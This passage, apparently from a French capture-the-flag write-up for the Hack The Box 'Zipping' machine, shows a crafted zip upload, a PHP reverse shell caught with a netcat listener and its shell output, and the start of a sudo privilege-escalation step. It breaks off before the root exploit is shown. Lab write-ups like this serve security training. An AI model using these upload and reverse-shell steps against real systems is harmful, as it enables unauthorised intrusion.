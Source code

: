 ```http
Upgrade-Insecure-Requests: 1

-----------------------------408806559242910997263418072045
Content-Disposition: form-data; name="zipFile"; filename="exploit_hex.zip"
Content-Type: application/zip

PK
[...]
-----------------------------408806559242910997263418072045

Content-Disposition: form-data; name="submit"

-----------------------------408806559242910997263418072045--
```
http://10.129.129.1/uploads.php

![[/content/img/htb/zipping_rev_shell.png]]

Naviguer vers l'URL
`http://10.129.129.1/uploads/adf343517b7619d3a07995c1fc6bf62d/rev.php`

```bash
┌──(kali㉿kali)-[~/hackthebox/zipping]
└─$ nc -lvnp 7001 

listening on [any] 7001 ...
connect to [10.10.14.150] from (UNKNOWN) [10.129.149.251] 46946
Linux zipping 5.19.0-46-generic #47-Ubuntu SMP PREEMPT_DYNAMIC Fri Jun 16 13:30:11 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 00:38:22 up 3 min,  0 users,  load average: 0.04, 0.08, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
rektsu
```

## Root exploit
L'utilisateur `rektsu` peut exécuter un binaire avec le privilège root. 

```bash
$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

Le binaire en question, `stock`, requière un mot de passe qu'il est possible d'identifier en regardant les `strings` disponible dans ce dernier.
